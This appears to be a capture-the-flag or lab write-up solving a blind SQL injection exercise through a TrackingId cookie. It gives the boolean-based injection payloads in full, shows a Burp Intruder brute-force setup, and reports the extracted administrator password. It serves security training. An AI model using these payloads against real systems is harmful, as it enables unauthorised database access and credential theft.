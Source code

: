 # Problem

![image](https://github.com/user-attachments/assets/ceed0dcb-2818-4eea-a02f-5c4799d80bfc)

# Solution

Start with **BurpSuite** and intercept the request, looking for the _tracking id_ cookie.

![image](https://github.com/user-attachments/assets/40a9db98-7833-4bb5-a369-fd96dc670cfc)

That in particular.

Then, run the following commands:

```
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='1 // Verify that SQLi works
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='2 // Verify it works, but this time no response message
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users LIMIT 1)='a // Verify users table is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator')='a //Verify that admin is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>[1,2,3,...20])='a //Verify password length
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a //Verify character is at that position in password
```

Take note of the last command, that's the payload we'll use to bruteforce this.

Speaking of, send the request to _Intruder_ and do the following:

**Intruder Presets:**

![image](https://github.com/user-attachments/assets/f71c23c8-b63f-448e-9aee-3c63f91dc778)

**Payloads:**

```
Payload 1: [1-20]
Payload 2: [a-z, 0-9]
```

**Intruder Results**

![image](https://github.com/user-attachments/assets/3bd995b3-d6c2-4ee1-a04d-03f704783cb5)

**Username: administrator**

**Password: a2k8q5haz214i3smm5m1**
